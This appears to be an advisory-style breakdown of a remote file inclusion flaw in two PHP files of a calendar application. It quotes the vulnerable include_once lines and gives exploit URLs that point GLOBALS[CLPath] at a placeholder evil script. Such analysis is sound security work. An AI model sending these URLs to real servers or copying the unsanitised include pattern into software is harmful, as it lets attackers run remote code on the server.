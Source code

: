Based on the provided content, here's a breakdown of the vulnerability:

*   **Root Cause:** The vulnerability lies in the insecure usage of the `$GLOBALS["CLPath"]` variable in `reconfig.php` and `srxclr.php`. This variable is used in `include_once` statements, and its value can be controlled by a remote attacker.

*   **Weaknesses/Vulnerabilities Present:** The primary weakness is **Remote File Inclusion (RFI)**. The application directly includes files based on a user-controlled path (`$GLOBALS["CLPath"]`), without proper sanitization or validation.

*   **Impact of Exploitation:** An attacker can inject a malicious URL into the `$GLOBALS["CLPath"]` variable, causing the server to include and execute arbitrary code from a remote server. This could lead to complete compromise of the server, including data theft, malware deployment, or denial of service.

*  **Attack Vectors:** The attack vector is through HTTP GET requests to `reconfig.php` or `srxclr.php`. The vulnerable parameter is `GLOBALS[CLPath]`.

*   **Required Attacker Capabilities/Position:**
    *   The attacker needs to be able to send HTTP requests to the server hosting the vulnerable application.
    *   The attacker needs to know the path to the vulnerable files (`reconfig.php` or `srxclr.php`).
    *   The attacker needs a server to host the malicious script to include.

**Technical Details:**

The provided code snippets show that the `$GLOBALS["CLPath"]` variable is used in `include_once` statements in `reconfig.php` and `srxclr.php`:

```php
// reconfig.php
include_once("./include/config.php");
include_once($GLOBALS["CLPath"]."/classes/session.php");
include_once($GLOBALS["CLPath"]."/include/gfunc.php");
include_once($GLOBALS["CLPath"]."/classes/calogicautomation.php");

// srxclr.php
include_once("./include/config.php");
include_once($GLOBALS["CLPath"]."/include/calfunc.php");
include_once($GLOBALS["CLPath"]."/include/gfunc.php");
include_once($GLOBALS["CLPath"]."/include/efuncs.php");
```

The exploit URLs demonstrate how an attacker can set the `$GLOBALS["CLPath"]` variable to a malicious URL:

```
http://site.com/[path]/reconfig.php?GLOBALS[CLPath]=[evil_script]
http://site.com/[path]/srxclr.php?GLOBALS[CLPath]=[evil_script]
```

This allows the attacker to include and execute code from `[evil_script]`.